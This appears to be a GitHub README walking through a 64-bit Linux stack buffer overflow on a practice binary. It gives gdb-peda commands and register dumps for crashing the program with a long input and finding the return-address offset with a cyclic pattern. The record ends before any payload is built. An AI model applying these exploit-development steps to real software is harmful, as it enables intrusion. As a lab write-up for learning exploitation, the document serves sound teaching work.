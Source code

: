 # buffer-overflow-linux-64-bit
buffer overflow linux 64 bit

gdb-peda$ file app
Reading symbols from app...

(No debugging symbols found in app)

gdb-peda$ 

gdb-peda$ run

Starting program: /home/kali/Desktop/Buffer_linux/app 
Oops, I'm leaking! 0x7fffffffe0c0
Pwn me ¯\_(ツ)_/¯ 
> 
gdb-peda$ disassemble main

______________________________________
┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python -c 'print "A"*300' > f
______________________________________
gdb-peda$ run < f

Starting program: /home/kali/Desktop/Buffer_linux/app < f

Oops, I'm leaking! 0x7fffffffe0c0

Pwn me ¯\_(ツ)_/¯ 

> 

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]

RAX: 0x0 

RBX: 0x0 

RCX: 0x7ffff7edef4e (<__GI___libc_read+14>:     cmp    rax,0xfffffffffffff000)

RDX: 0x0 

RSI: 0x7ffff7faea03 --> 0xfb1680000000000a

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4141414141414141 ('AAAAAAAA')

RSP: 0x7fffffffe108 ('A' <repeats 200 times>...)

RIP: 0x40088e (<main+95>:       ret)

R8 : 0x7fffffffe0c0 ('A' <repeats 200 times>...)

R9 : 0x0 

R10: 0xfffffffffffff24a 

R11: 0x246 

R12: 0x4006a0 (<_start>:        xor    ebp,ebp)

R13: 0x0 

R14: 0x0 

R15: 0x0

EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)

[-------------------------------------code-------------------------------------]

   0x400883 <main+84>:  call   0x400650 <fgets@plt>
   
   0x400888 <main+89>:  mov    eax,0x0
   
   0x40088d <main+94>:  leave  
   
=> 0x40088e <main+95>:  ret    

   0x40088f:    nop
   
  
   0x400890 <__libc_csu_init>:  push   r15
   
   0x400892 <__libc_csu_init+2>:        push   r14
   
   0x400894 <__libc_csu_init+4>:        mov    r15d,edi

gdb-peda$run < pattern 

Starting program: /home/kali/Desktop/Buffer_linux/app < pattern

Oops, I'm leaking! 0x7fffffffe0c0

Pwn me ¯\_(ツ)_/¯ 

> 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]

RAX: 0x0 

RBX: 0x0 

RCX: 0xfbad20ab 

RDX: 0x0 

RSI: 0x7ffff7faea03 --> 0xfb16800000000025 

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4141334141644141 ('AAdAA3AA')

RSP: 0x7fffffffe108 

("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A"...)

RIP: 0x40088e (<main+95>:       ret)

R8 : 0x7fffffffe0c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)

gdb-peda$ pattern_search 

Registers contain pattern buffer:

RBP+0 found at offset: 64

Registers point to pattern buffer:

[RSP] --> offset 72 - size ~203

[R8] --> offset 0 - size ~203

Pattern buffer found at:

0x00007fffffffe0c0 : offset    0 - size  300 ($sp + -0x48 [-18 dwords])


